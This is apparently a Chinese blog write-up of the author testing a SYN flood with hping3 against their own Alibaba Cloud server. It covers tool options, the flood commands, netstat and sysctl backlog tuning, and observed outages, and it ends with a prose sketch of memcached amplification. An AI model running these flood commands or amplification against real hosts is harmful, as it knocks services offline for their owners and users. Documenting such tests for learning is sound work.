


SYN Flood Attack
什么是SYN Flood
SYN Flood，又称TCP Flood，是利用TCP协议三次握手消耗目标服务器资源的DDoS攻击。客户端通过伪造SYN包，使用伪造的源IP地址，因为服务端收到请求后会对SYN进行响应——发送SYN和ACK包，但是对方的地址是伪造的因此不会响应，服务端会重试几次后丢弃这个连接。这样会导致服务端对多个伪造的SYN包在重试响应，无暇理睬正常的连接请求。
实践
初步尝试
根据定义，需要向特定服务发送大量的TCP SYN包，因此需要利用一些发包工具。通过搜索找到hping工具，作者是antirez（Redis作者）。以下是安装及文档中部分实践使用到的参数：
uck@duck-MS-7A34:~$ sudo apt install hping3
duck@duck-MS-7A34:~$ sudo hping --help
usage: hping3 host [options]
-i --interval wait (uX for X microseconds, for example -i u1000)
--fast alias for -i u10000 (10 packets for second)
--faster alias for -i u1000 (100 packets for second)
--flood sent packets as fast as possible. Don't show replies.
IP
-a --spoof spoof source address
--rand-dest random destionation address mode. see the man.
--rand-source random source address mode. see the man.
UDP/TCP
-s --baseport base source port (default random)
-p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
-S --syn set SYN flag
尝试攻击部署在阿里云的个人博客：
uck@duck-MS-7A34:~$ sudo hping3 -i u1000 -S -p 443 120.25.247.125
HPING 120.25.247.125 (enp33s0 120.25.247.125): S set, 40 headers + 0 data bytes
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=0 win=29200 rtt=15.8 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=1 win=29200 rtt=14.7 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=2 win=29200 rtt=13.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=3 win=29200 rtt=12.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=4 win=29200 rtt=11.5 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=5 win=29200 rtt=10.5 ms
...
此时可以在ECS上看到网络情况，通过netstat命令查看到处于SYN_RECV的大量TCP连接，如图所示：

暴力发包
尝试将攻击频率调快：sudo hping3 -i u1 -S -p 443 120.25.247.125，然后在ECS上查看当前的SYN包个数：
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ netstat -n | grep SYN | wc -l
128
只有128个TCP半连接，与发包数量相差很大。猜测是系统配置限制了总TCP连接数上限或者半连接状态连接数上限。
通过查询相关文档，找到系统配置：
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ vim /etc/sysctl.conf
vm.swappiness = 0
net.ipv4.neigh.default.gc_stale_time = 120
# see details in https://help.aliyun.com/knowledge_detail/39428.html
net.ipv4.conf.all.rp_filter = 0
net.ipv4.conf.default.rp_filter = 0
net.ipv4.conf.default.arp_announce = 2
net.ipv4.conf.lo.arp_announce = 2
net.ipv4.conf.all.arp_announce = 2
# see details in https://help.aliyun.com/knowledge_detail/41334.html
net.ipv4.tcp_max_tw_buckets = 5000
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_max_syn_backlog = 128
net.ipv4.tcp_synack_retries = 2
net.ipv6.conf.all.disable_ipv6 = 1
net.ipv6.conf.default.disable_ipv6 = 1
net.ipv6.conf.lo.disable_ipv6 = 1
net.ipv6.conf.eth0.disable_ipv6 =1
kernel.sysrq = 1
其中一项net.ipv4.tcp_max_syn_backlog = 128可能是有关项，并且通过查阅文件中提供的阿里云文档，得到参数和它相关参数的具体描述：
net.ipv4.tcp_max_syn_backlog：该参数决定了系统中处于SYN_RECV状态的TCP连接数量。SYN_RECV状态指的是当系统收到SYN后，作为SYN+ACK响应后等待对方回复三次握手阶段中的最后一个ACK的阶段。对于还未获得对方确认的连接请求，可保存在队列中的最大数目。如果服务器经常出现过载，可以尝试增加这个数字。默认为1024。net.core.somaxconn：该参数定义了系统中每一个端口最大的监听队列的长度，是个全局参数。该参数和net.ipv4.tcp_max_syn_backlog有关联，后者指的是还在三次握手的半连接的上限，该参数指的是处于ESTABLISHED的数量上限。当backlog大于net.core.somaxconn时，以net.core.somaxconn参数为准。
那么将他们都改成一个特别大的数值然后保存，再尝试SYN Flood，结果如下：
- 因为发包占用了很多的流量所以本机无法SSH上ECS查看
- 通过阿里云的管理面板查看到TCP包一共64000个，其中NON_ESTABLISHED状态的包占了几乎全部数量
- 访问https的博客地址无法响应

持续监控
在持续发包一段时间后，发现TCP连接数下降至约500个，并且博客站点重新可以访问。因为时间原因没有尝试其他的手段，主要推测可能是现有的系统（也可能是协议层、云服务商等）对暴力SYN Flood攻击有判断和校验，丢弃特定特征的包（相同IP、端口或者其他指纹）。
因为ECS地理位置离测试地点较近，所以通常延迟非常低。在SYN状态TCP连接数量从64k下降到500时，站点可以进行访问但是观察到速度比原来明显缓慢，通过这点猜测DoS攻击有生效但是受限于使用的发起攻击的设备流量条件不足以拖跨服务。
延伸思考
因为设备条件问题，虽然可以观察到大量半连接的TCP状态，但是离DoS（Denial of Service）还是有很大的差距，消耗不完目标的网络带宽或系统资源。那是否有方案通过小流量产生大流量（放大）的攻击呢？
Memcached DDoS
当Memcached服务器接收到GET请求，它从内存获取相关信息组织起一个RESPONSE，然后通过连续的UDP包进行返回。通常来说GET请求的体积和RESPONSE的体积大小可以相差很多倍。
攻击者可以利用这点，先向Memcached服务器插入随机的大体积数据，然后向服务器请求。根据CloudFlare的报告，这样会导致一个巨大的流量放大倍数，例如15 byte的请求可以引起134KB的响应。当Memcached响应的对象指向攻击目标机器的时候，目标机器就会收到海量的UDP包，从而可能导致拒绝服务。